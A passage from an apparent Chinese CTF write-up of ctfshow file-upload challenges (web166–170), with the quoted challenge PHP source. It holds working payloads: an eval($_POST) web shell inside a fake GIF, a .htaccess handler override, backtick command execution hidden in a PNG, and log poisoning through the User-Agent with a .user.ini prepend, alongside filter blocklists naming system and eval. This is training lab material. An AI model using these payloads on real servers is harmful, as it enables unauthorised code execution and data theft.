class="name">script</span>&gt;</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-71"><a href="#解题-71" class="headerlink" title="解题"></a>解题</h2><p>html中有一部分需要在前端进行修改：</p>
<figure class="highlight html"><table><tr><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">button</span> <span class="attr">type</span>=<span class="string">&quot;button&quot;</span> <span class="attr">class</span>=<span class="string">&quot;layui-btn&quot;</span> <span class="attr">id</span>=<span class="string">&quot;upload&quot;</span> <span class="attr">lay-data</span>=<span class="string">&quot;&#123;url: &#x27;upload.php&#x27;, accept: &#x27;file&#x27;&#125;&quot;</span>&gt;</span></span><br><span class="line">	<span class="tag">&lt;<span class="name">i</span> <span class="attr">class</span>=<span class="string">&quot;layui-icon&quot;</span>&gt;</span><span class="symbol">&amp;#xe67c;</span><span class="tag">&lt;/<span class="name">i</span>&gt;</span>上传文件</span><br><span class="line"><span class="tag">&lt;/<span class="name">button</span>&gt;</span></span><br></pre></td></tr></table></figure>

<p>修改完成后就能提交文件了。下面的是相关的数据包：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">POST /upload.php HTTP/1.1</span><br><span class="line">Host: 14110e69-c752-4f7c-8e9a-75cf958b5f79.challenge.ctf.show</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0</span><br><span class="line">Accept: application/json, text/javascript, */*; q=0.01</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">X-Requested-With: XMLHttpRequest</span><br><span class="line">Content-Type: multipart/form-data; boundary=---------------------------9830625281214664067920966739</span><br><span class="line">Content-Length: 282</span><br><span class="line">Origin: http://14110e69-c752-4f7c-8e9a-75cf958b5f79.challenge.ctf.show</span><br><span class="line">Connection: close</span><br><span class="line"></span><br><span class="line">-----------------------------9830625281214664067920966739</span><br><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;11111.zip&quot;</span><br><span class="line">Content-Type: application/x-zip-compressed</span><br><span class="line"></span><br><span class="line">PKF</span><br><span class="line">&lt;?php var_dump(system(&#x27;cat ../f*&#x27;));?&gt;</span><br><span class="line">PK</span><br><span class="line">-----------------------------9830625281214664067920966739--</span><br></pre></td></tr></table></figure>

<p>非常重要的一个数据：但凡这个没搞对就会出现传不了的情况。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">Content-Type: application/x-zip-compressed</span><br></pre></td></tr></table></figure>

<p>然后访问对应的数据包即可输出数据：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GET /upload/download.php?file=2eaa7cebaf94009ea6f40c3841dca980.zip HTTP/1.1</span><br><span class="line">Host: 14110e69-c752-4f7c-8e9a-75cf958b5f79.challenge.ctf.show</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0</span><br><span class="line">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Connection: close</span><br><span class="line">Referer: http://14110e69-c752-4f7c-8e9a-75cf958b5f79.challenge.ctf.show/</span><br><span class="line">Upgrade-Insecure-Requests: 1</span><br></pre></td></tr></table></figure>

<p>flag的内容：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-21 21:31:23</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-16 22:41:40</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;f2b00e1d-b60d-4483-a404-63dd9365c962&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

<h2 id="其它文件的内容"><a href="#其它文件的内容" class="headerlink" title="其它文件的内容"></a>其它文件的内容</h2><p>upload文件</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-28 22:14:40</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;application/x-zip-compressed&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">in_array</span>(<span class="variable">$ext_suffix</span>, <span class="keyword">array</span>(<span class="string">&quot;zip&quot;</span>)))&#123;</span><br><span class="line">                <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&#x27;./upload/&#x27;</span>.<span class="title function_ invoke__">md5</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]).<span class="string">&#x27;.zip&#x27;</span>);</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="title function_ invoke__">md5</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]).<span class="string">&#x27;.zip&#x27;</span>);</span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">3</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;只允许上传zip格式文件&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>

<p>/upload/download.php</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-27 16:49:18</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-28 22:53:44</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"></span><br><span class="line"><span class="variable">$file</span>= <span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(!<span class="keyword">isset</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">	<span class="keyword">die</span>(<span class="string">&#x27;文件不存在&#x27;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/log|flag|data|input|file|compress|phar|http|https|ftp/&#x27;</span>, <span class="variable">$file</span>))&#123;</span><br><span class="line">	<span class="keyword">die</span>(<span class="string">&#x27;文件不存在&#x27;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">check</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">	<span class="keyword">die</span>(<span class="string">&#x27;文件不存在!&#x27;</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">	<span class="keyword">include</span>(<span class="variable">$file</span>);</span><br><span class="line">	<span class="title function_ invoke__">header</span>(<span class="string">&#x27;Content-Type:application/x-zip-compressed&#x27;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="literal">FALSE</span>;</span><br><span class="line">	<span class="variable">$arrayName</span> = <span class="keyword">array</span>(<span class="string">&#x27;ftp&#x27;</span>,<span class="string">&#x27;file&#x27;</span>,<span class="string">&#x27;/&#x27;</span>,<span class="string">&#x27;http&#x27;</span>,<span class="string">&#x27;https&#x27;</span>,<span class="string">&#x27;phar&#x27;</span>,<span class="string">&#x27;tmp&#x27;</span>,<span class="string">&#x27;php&#x27;</span>,<span class="string">&#x27;data&#x27;</span>,<span class="string">&#x27;compress&#x27;</span>);</span><br><span class="line">	<span class="keyword">foreach</span> (<span class="variable">$arrayName</span> <span class="keyword">as</span> <span class="variable">$key</span>) &#123;</span><br><span class="line">		<span class="variable">$ret</span> = <span class="title function_ invoke__">checkPro</span>(<span class="variable">$key</span>,<span class="variable">$str</span>);</span><br><span class="line">	&#125;</span><br><span class="line">	<span class="keyword">return</span> <span class="variable">$ret</span>;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">checkPro</span>(<span class="params"><span class="variable">$key</span>,<span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">	<span class="variable">$len</span> = <span class="title function_ invoke__">strlen</span>(<span class="variable">$key</span>);</span><br><span class="line">	<span class="variable">$mt</span> = <span class="title function_ invoke__">substr</span>(<span class="variable">$str</span>, <span class="number">0</span>,<span class="variable">$len</span>);</span><br><span class="line">	<span class="keyword">return</span> <span class="variable">$len</span>==<span class="variable">$mt</span>;</span><br><span class="line">&#125;</span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h1 id="web167"><a href="#web167" class="headerlink" title="web167"></a>web167</h1><h2 id="原始信息-77"><a href="#原始信息-77" class="headerlink" title="原始信息"></a>原始信息</h2><h2 id="解题-72"><a href="#解题-72" class="headerlink" title="解题"></a>解题</h2><p>上传带码的图片：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=<span class="string">&quot;file&quot;</span>; filename=<span class="string">&quot;jz.jpg&quot;</span></span><br><span class="line">Content-Type: image/jpeg</span><br><span class="line"></span><br><span class="line">GIF89a?</span><br><span class="line"><span class="meta">&lt;?=</span><span class="keyword">eval</span>(<span class="variable">$_POST</span>[<span class="number">1</span>])<span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>


<p>上传第二种配置文件：.htaccess</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;.htaccess&quot;</span><br><span class="line">Content-Type: image/jpeg</span><br><span class="line"></span><br><span class="line">SetHandler application/x-httpd-php</span><br></pre></td></tr></table></figure>

<p>将所有的文件解析为php文件后，访问对应的文件路径即可。</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">GET: /upload/jz.jpg</span><br><span class="line">POST: 1=system(&#x27;ls&#x27;);</span><br><span class="line"></span><br><span class="line">return:</span><br><span class="line">flag.php</span><br><span class="line">images</span><br><span class="line">index.php</span><br><span class="line">js</span><br><span class="line">layui</span><br><span class="line">upload</span><br><span class="line">upload.php</span><br></pre></td></tr></table></figure>

<p>后面照常找出flag就行。</p>
<p>.user.ini上传后不会生效，只有.htaccess生效。</p>
<p>下面是upload的内容：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-28 22:14:40</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="comment">#error_reporting(0);</span></span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/jpeg&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(!<span class="title function_ invoke__">in_array</span>(<span class="variable">$ext_suffix</span>, <span class="keyword">array</span>(<span class="string">&quot;php&quot;</span>)))&#123;</span><br><span class="line">                <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&#x27;./upload/&#x27;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">3</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;只允许上传jpg格式文件&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>

<h1 id="web168"><a href="#web168" class="headerlink" title="web168"></a>web168</h1><h2 id="原始信息-78"><a href="#原始信息-78" class="headerlink" title="原始信息"></a>原始信息</h2><h2 id="解题-73"><a href="#解题-73" class="headerlink" title="解题"></a>解题</h2><p>题目前端要求的是png，随便选一张png上传后，在BP上去截取数据包。</p>
<p>而这次直接限制了类似于 <code>eval ，include</code> 等PHP函数，本以为还是无法使用php文件上传，没想到后面看见了某个大佬的wp说到了能直接上传PHP后就直接拿下了。</p>
<p>随便上传一张图片后，信息如下：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;1.php&quot;</span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">�PNG</span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>而实际上，其中是夹杂着一句木马的：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?=</span>`ls ../`?</span><br></pre></td></tr></table></figure>

<p>能ls，接下来就能直接拿flag了。下面的是upload文件的内容。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-30 00:11:17</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$str</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">check</span>(<span class="variable">$str</span>)===<span class="number">0</span>)&#123;</span><br><span class="line">                <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&#x27;./upload/&#x27;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|include|require/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>

<h1 id="web169-170"><a href="#web169-170" class="headerlink" title="web169~170"></a>web169~170</h1><h2 id="原始信息-79"><a href="#原始信息-79" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight html"><table><tr><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">button</span> <span class="attr">type</span>=<span class="string">&quot;button&quot;</span> <span class="attr">class</span>=<span class="string">&quot;layui-btn&quot;</span> <span class="attr">id</span>=<span class="string">&quot;upload&quot;</span> <span class="attr">lay-data</span>=<span class="string">&quot;&#123;url: &#x27;upload.php&#x27;, accept: &#x27;images&#x27;,exts:&#x27;zip&#x27;&#125;&quot;</span>&gt;</span></span><br><span class="line">	<span class="tag">&lt;<span class="name">i</span> <span class="attr">class</span>=<span class="string">&quot;layui-icon&quot;</span>&gt;</span><span class="symbol">&amp;#xe67c;</span><span class="tag">&lt;/<span class="name">i</span>&gt;</span>上传文件</span><br><span class="line"><span class="tag">&lt;/<span class="name">button</span>&gt;</span></span><br></pre></td></tr></table></figure>


<h2 id="解题-74"><a href="#解题-74" class="headerlink" title="解题"></a>解题</h2><p>尖括号都被过滤了，考虑文件包含漏洞 <code>-&gt;</code> 日志文件包含漏洞。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=<span class="string">&quot;file&quot;</span>; filename=<span class="string">&quot;.user.ini&quot;</span></span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line">auto_prepend_file=/<span class="keyword">var</span>/log/nginx/access.log</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>为防止出现403的情况，我们自己上传个 <code>d.php</code> :</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">Content-Disposition: form-data; name=<span class="string">&quot;file&quot;</span>; filename=<span class="string">&quot;d.php&quot;</span></span><br><span class="line">Content-Type: image/png</span><br><span class="line"></span><br><span class="line"><span class="number">1</span></span><br></pre></td></tr></table></figure>

<p>并且在这个php的UA处进行注入：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0&lt;?=`ls ..`?&gt;</span><br></pre></td></tr></table></figure>

<p>再访问 <code>/upload/d.php</code> 即可看到日志相关信息以及对应的代码执行结果。</p>
<p>其中，因为是 <code>UA</code> 注入 <code>php</code> 可执行语句，可以选择在任意位置的 <code>UA</code> 注入。</p>
<h3 id="upload-php-169"><a href="#upload-php-169" class="headerlink" title="upload.php - 169"></a>upload.php - 169</h3><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-30 00:11:17</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span 